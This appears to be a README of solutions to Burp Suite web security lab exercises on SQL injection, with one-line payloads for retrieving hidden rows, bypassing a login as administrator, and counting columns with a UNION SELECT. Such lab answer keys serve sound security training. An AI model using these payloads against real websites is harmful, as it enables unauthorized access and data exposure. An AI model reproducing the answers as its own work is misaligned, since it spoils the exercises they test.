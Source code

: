 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
<img src="../Images/SQL-1.png">

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
<img src="../Images/SQL-2.png">

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
<img src="../Images/SQL-3.png">
